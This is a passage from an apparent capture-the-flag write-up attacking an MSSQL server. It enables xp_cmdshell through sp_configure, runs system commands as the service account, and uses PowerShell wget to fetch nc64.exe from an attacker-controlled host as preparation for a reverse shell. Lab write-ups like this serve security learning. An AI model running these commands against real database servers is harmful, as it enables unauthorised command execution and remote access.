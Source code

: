 ```
SQL> EXEC xp_cmdshell 'net user';
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.

```
The current settings doesn't allow us to do so, but as we are admin we are allowed to change that setting.
```
SQL> EXEC sp_configure 'show advanced options', 1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> sp_configure;
...

SQL> EXEC sp_configure 'xp_cmdshell', 1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;

```

Now we are able to run system commands
```
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL 
```

We download the nc64.exe utility to upload it to the server to get the reverse shell we want, to upload it we start a HTTP server with `sudo python3 -m http.server 80`
```
SQL> xp_cmdshell "powershell -c pwd"
output                                                                             

--------------------------------------------------------------------------------   

NULL                                                                               

Path                                                                               

----                                                                               

C:\Windows\system32                                                                

NULL                                                                               

NULL                                                                               

NULL                                                                               


```
We need to save the exe in a folder where we are able to write so we choose the Downloads folder to download the nc64
```
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.169/nc64.exe -outfile nc64.exe"
```